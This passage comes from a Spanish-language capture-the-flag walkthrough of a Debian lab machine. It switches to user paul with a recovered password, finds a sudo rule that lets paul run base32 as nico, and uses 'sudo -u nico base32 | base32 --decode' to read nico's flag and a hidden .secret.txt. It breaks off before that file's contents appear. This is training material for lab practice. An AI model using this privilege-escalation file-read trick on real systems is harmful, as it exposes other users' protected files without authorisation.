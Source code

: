 Vamos a probar dichas credenciales a ver si funcionan.

```shell
su paul
```

Metemos como contraseña `YouCanBecomePaul` y veremos que estamos dentro.

## Escalate user nico

Si hacemos `sudo -l` veremos lo siguiente:

```
Entrées par défaut pour paul sur debian :
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

L'utilisateur paul peut utiliser les commandes suivantes sur debian :
    (nico) /usr/bin/base32
```

Veremos que podemos ejecutar `Base32` como el usuario `nico` por lo que podremos realizar lo siguiente:

Vamos a leer la `flag` del usuario.

> user.txt

```shell
LFILE=/home/nico/user.txt
sudo -u nico base32 "$LFILE" | base32 --decode
```

Info:

```
gamhanarhu
```

Ahora vamos a listar la `/home` de `nico`.

```
total 32
drwxr-xr-x 3 nico nico 4096 avril  1  2021 .
drwxr-xr-x 4 root root 4096 avril  1  2021 ..
lrwxrwxrwx 1 root root    9 avril  1  2021 .bash_history -> /dev/null
-rw-r--r-- 1 nico nico  220 avril  1  2021 .bash_logout
-rw-r--r-- 1 nico nico 3526 avril  1  2021 .bashrc
drwxr-xr-x 3 nico nico 4096 avril  1  2021 .local
-rw-r--r-- 1 nico nico  807 avril  1  2021 .profile
-rwx------ 1 nico nico   37 avril  1  2021 .secret.txt
-rwx------ 1 nico nico   11 avril  1  2021 user.txt
```

Veremos que hay un archivo interesante llamado `.secret.txt` si lo leemos veremos lo siguiente:

```shell
LFILE=/home/nico/.secret.txt
sudo -u nico base32 "$LFILE" | base32 --decode
```
